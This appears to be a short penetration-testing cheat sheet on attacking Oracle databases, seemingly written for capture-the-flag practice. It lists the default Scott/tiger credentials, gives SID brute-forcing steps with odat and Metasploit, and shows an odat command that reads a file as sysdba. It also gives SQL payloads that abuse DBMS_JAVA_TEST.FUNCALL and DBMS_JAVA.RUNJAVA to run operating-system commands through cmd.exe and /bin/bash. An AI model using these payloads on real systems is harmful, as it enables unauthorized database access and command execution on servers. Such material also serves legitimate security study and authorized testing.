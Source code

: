 # Oracle / ODAT

# Basic Credentials
``` 
Username --> Scott 
Password --> tiger
```

# Brute-force SID  
- **[HELP](https://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-SLIDES.pdf)**       
1. Use: `odat` and its `sidguesser` to bruteforce with a link provided
2. Use metasploit and use `auxiliary(admin/oracle/sid_brute)`
3. Use `sqlplus` to login with the creds or
    1. Read file with odat:    
    ```sh
    odat ctxsys -s <ip> -d XE -U SCOTT -P tiger --sysdba --getFile flag.txt
    ```

# Command Execution
```sql
-- 10g R2, 11g R1 and R2: DBMS_JAVA_TEST.FUNCALL()
SELECT DBMS_JAVA_TEST.FUNCALL('oracle/aurora/util/Wrapper','main','c:\\windows\\system32\\cmd.exe','/c', 'dir >c:\test.txt') FROM DUAL
SELECT DBMS_JAVA_TEST.FUNCALL('oracle/aurora/util/Wrapper','main','/bin/bash','-c','/bin/ls>/tmp/OUT2.LST') from dual

-- 11g R1 and R2: DBMS_JAVA.RUNJAVA()
SELECT DBMS_JAVA.RUNJAVA('oracle/aurora/util/Wrapper /bin/bash -c /bin/ls>/tmp/OUT.LST') FROM DUAL
```

# References
- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/OracleSQL%20Injection.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/OracleSQL%20Injection.md)